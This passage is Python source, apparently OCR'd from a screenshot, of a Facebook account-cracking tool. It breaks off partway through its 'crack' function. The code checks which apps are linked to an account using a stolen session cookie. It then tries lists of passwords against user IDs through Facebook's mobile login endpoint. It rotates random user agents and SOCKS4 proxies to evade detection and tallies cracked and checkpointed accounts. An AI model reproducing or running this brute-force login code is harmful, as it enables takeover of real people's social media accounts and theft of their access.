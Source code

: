                   
 def cek_apk(session,coki): 
     w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text 
     sop = BeautifulSoup(w,"html.parser") 
     x = sop.find("form",method="post") 
     game = [i.text for i in x.find_all("h3")] 
     if len(game)==0: 
         print(f'\r %s[%s!%s] %sSorry there is no Active Apk%s  '%(N,M,N,M,N)) 
     else: 
         print(f'\r 🎮  %sYour Active Application Details :'%(H)) 
         for i in range(len(game)): 
             print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N)) 
         #else: 
             #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N)) 
     w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text 
     sop = BeautifulSoup(w,"html.parser") 
     x = sop.find("form",method="post") 
     game = [i.text for i in x.find_all("h3")] 
     if len(game)==0: 
         print(f'\r %s[%s!%s] %sSorry no Expired Apk%s           \n'%(N,M,N,M,N)) 
     else: 
         print(f'\r 🎮  %sYour Expired Application Details :'%(M)) 
         for i in range(len(game)): 
             print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N)) 
         else: 
             print(f'\r') 
             #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie\n'%(N,M,N)) 
 #--------------------[ METODE-B-API ]-----------------# 
 def crack(idf,pwv): 
         global loop,ok,cp 
         bo = random.choice([m,k,h,b,u,x]) 
         sys.stdout.write(f"\r{P}[EREN]{P}[{P}{loop}{P}/{P}{len(id)}{P}] OK{P}[{H}{ok}{P}] CP{P}[{P}{cp}{x}]×[{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "), 
         sys.stdout.flush() 
         ua = random.choice(ugen) 
         ua2 = random.choice(ugen2) 
         ses = requests.Session() 
         for pw in pwv: 
                 try: 
                         nip=random.choice(prox) 
                         proxs= {'http': 'socks4://'+nip} 
                         ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}) 
                         p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr') 
                         dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,} 
                         koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ]) 
                         koki+=' m_pixel_ratio=2.625; wd=412x756' 
                         heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"} 